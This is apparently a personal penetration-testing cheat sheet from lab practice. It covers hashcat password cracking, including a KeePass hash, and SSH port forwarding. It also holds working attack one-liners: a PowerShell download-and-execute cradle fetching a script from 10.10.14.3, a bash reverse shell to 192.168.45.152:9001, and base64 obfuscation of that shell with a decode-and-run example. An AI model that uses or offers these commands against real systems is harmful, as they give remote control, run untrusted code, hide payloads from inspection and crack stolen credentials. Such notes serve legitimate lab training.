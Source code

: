 [Hash modes](https://hashcat.net/wiki/doku.php?id=example_hashes)

```
hashcat -m 13400 jeeves-keepass.hash /usr/share/wordlist/rockyou.txt
```

hashcat hashes with user:pass
```
hashcat -m 0 --user user.hashes /usr/share/wordlists/rockyou.txt
```

show matches
```
hashcat -m 0 --user user.hashes /usr/share/wordlists/rockyou.txt --show
```

# Encoding Payloads

## Windows 

Base64 (UTF-16LE) encode using Kali terminal

```
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8001/9002.ps1')" | iconv --to-code UTF-16LE | base64 -w 0
```

## Linux

**Bash Reverse Shell**
```
bash -i >& /dev/tcp/192.168.45.152/9001 0>&1
```

**Base64 Encode**
```
echo -n "bash -i >& /dev/tcp/192.168.45.152/9001 0>&1" | base64
```
- remove special chars (+,=)

**Ex implementation**
```
”echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40NS4xNTIvOTAwMSAgICAwPiYx| base64 -d | bash”
```
- [[Image]]
- [[Magic]]
# Port Forwarding 

Web server running on remote host on port 8443 & want to access via local web browser. Execute this on kali shell
```
ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184 -N
```

Then navigate to 127.0.0.1:8443 in web browser
